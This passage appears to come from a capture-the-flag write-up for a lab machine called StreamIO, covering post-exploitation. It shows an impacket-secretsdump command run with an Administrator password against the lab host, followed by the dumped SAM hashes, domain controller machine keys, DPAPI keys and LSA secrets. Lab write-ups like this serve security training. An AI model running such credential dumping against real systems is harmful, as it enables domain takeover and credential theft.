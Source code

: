 ## Post Exploitation
Dumping the secrets
```bash
$ impacket-secretsdump streamio.htb/Administrator:'!vG(xZ{)5b8!4G'@10.129.186.175

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation                                                                                                 
                                                                                                                                                         
[*] Service RemoteRegistry is in stopped state                                                                                                           
[*] Starting service RemoteRegistry                                                                                                                      
[*] Target system bootKey: 0x4dbf07084a530cfa7ab417236bd4a647                                                                                            
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)                                                                                                     
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6a559f691b75bff16a07ecbd12e3bdfb:::                                                                   
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                           
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                  
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesnt have hash information.                                                 
[*] Dumping cached domain logon information (domain/username:hash)                                                                                       
[*] Dumping LSA Secrets                                                                                                                                  
[*] $MACHINE.ACC                                                                                                                                         
streamIO\DC$:aes256-cts-hmac-sha1-96:f41cd2005b55017c66c0cda9bee4ba2db9c5a82c054a7f9dd64d4ad3ee03f591                                                    
streamIO\DC$:aes128-cts-hmac-sha1-96:ac3ca985d299f6edde2ff736307bca4b                                                                                    
streamIO\DC$:des-cbc-md5:8a576d851c9810b5                                                                                                                
streamIO\DC$:plain_password_hex:a4863e436bcb3cac53b132f0284a6b19113ef0aadf8baa5af9ac62cd2a49104d7c8c5fbd9a2d61e64e85bfb4a82426003fdd82bdaf387bb4d4b748a84
09960cfd613e97259559f694ef31396660f3a2ce952ccc50b1a072f4eeec5a7c7aea0f58c99215abc25227d8fbb0f832cc97cbd22ee7f2cc3ab1899513c42432687f0ec75860d4568022de7c4
3fa5702e1e21e9c4fd95b3a6eb9c1f7fce3e4f1263cfb78cbf99e5a1ccda31917077e9058a03449ec19fa102d8100e8ba284065a9bb78e72d57b7e2e7cf92f2f4988fc02a6a2e971aae4edf5e
4bfdec02c42e41989e553f3d89ad60e4b434e985374c363aa1038                                                                                                    
streamIO\DC$:aad3b435b51404eeaad3b435b51404ee:b043edae34baa61e727e92f0a89dc161:::                                                                        
[*] DPAPI_SYSTEM                                                                                                                                         
dpapi_machinekey:0xd8b78bca07d4bce21bce1ae04bf231978c84407f                                                                                              
dpapi_userkey:0x9b682d0f5f9b63c03827113581bc2dc4f993e3ee                                                                                                 
[*] NL$KM                                                                                                                                                
 0000   A5 68 6C 6F 0F D6 72 8F  9E DE A2 27 47 D1 73 3A   .hlo..r....G.s:                                                                              
 0010   EA FB 23 4A 58 C9 04 91  95 A2 E7 3C 63 1A E8 B1   ..#JX......<c...                                                                              
 0020   DA D8 C8 95 DD 09 23 97  A5 5A 21 74 17 17 CC C6   ......#..Z!t....                                                                              
 0030   5E 1B F7 BE 34 99 DC 39  D1 72 7B 3E 19 B6 B2 3C   ^...4..9.r{>...<
NL$KM:a5686c6f0fd6728f9edea22747d1733aeafb234a58c9049195a2e73c631ae8b1dad8c895dd092397a55a21741717ccc65e1bf7be3499dc39d1727b3e19b6b23c                   
```